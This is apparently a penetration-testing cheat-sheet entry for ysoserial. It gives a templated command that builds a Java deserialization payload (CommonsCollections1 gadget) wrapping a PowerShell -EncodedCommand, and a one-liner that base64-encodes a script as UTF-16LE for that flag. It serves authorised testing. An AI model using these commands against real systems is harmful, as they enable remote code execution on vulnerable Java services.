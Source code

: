# ysoserial

% java, unserialize 

## ysoserial java - generate payload
#platform/linux #target/local #cat/ATTACK/GENERATE_PAYLOAD 

https://github.com/frohoff/ysoserial

```bash
java -jar ysoserial.jar <lib_payload> 'powershell.exe -EncodedCommand <base64_encoded_command>' > <output_file>
```

## convert file to base64 one line
#platform/linux #target/local #cat/UTILS 

```bash
iconv -f ASCII -t UTF-16LE <file_to_convert> | base64 | tr -d "\n"
```

= lib_payload : CommonsCollections1
